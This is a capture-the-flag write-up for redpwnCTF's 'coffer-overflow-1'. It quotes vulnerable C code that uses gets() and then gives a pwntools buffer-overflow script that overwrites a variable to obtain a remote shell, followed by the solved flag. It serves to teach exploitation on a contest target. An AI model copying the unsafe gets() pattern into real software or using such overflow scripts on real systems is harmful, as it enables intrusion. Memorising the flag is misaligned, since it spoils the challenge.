

# pwncoffer-overflow-1

## Challenge

"The coffers keep getting stronger! You'll need to use the source, Luke.

nc 2020.redpwnc.tf 31255"

You can download the problem files here [coffer-overflow-1](coffer-overflow-1)[coffer-overflow-1.c](coffer-overflow-1.c)

## Process

Coffer-overflow is title that implies a buffer overflow attack. I opened up the .c file and looked for anything interesting.

```
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```

The lines below are important to the buffer overflow. The variable named code is defined as zero, and you can obtain shell capabilities if its value is set to 0xcafebabe. 

```
  long code = 0;
...
  gets(name);
...
  if(code == 0xcafebabe) {
    system("/bin/sh");
```

I wrote the following [python script](payloader.py) in order to overwrite the value of the variable code with 0xcafebabe.

```
from pwn import * 
connection = remote('2020.redpwnc.tf', 31255)
# offset is allocated + 8
offset = 16+8
# through objdump -d we know the machine is 64 bit
# through objdump -d we know we want to overwrite code as 0xcafebabe
code = p64(0xcafebabe)
#perform the bufferoverflow itself
connection.sendline(offset*code)
connection.interactive()
```

After running the script you obtain shell capabilities. The flag can then be found and displayed.



The flag is flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}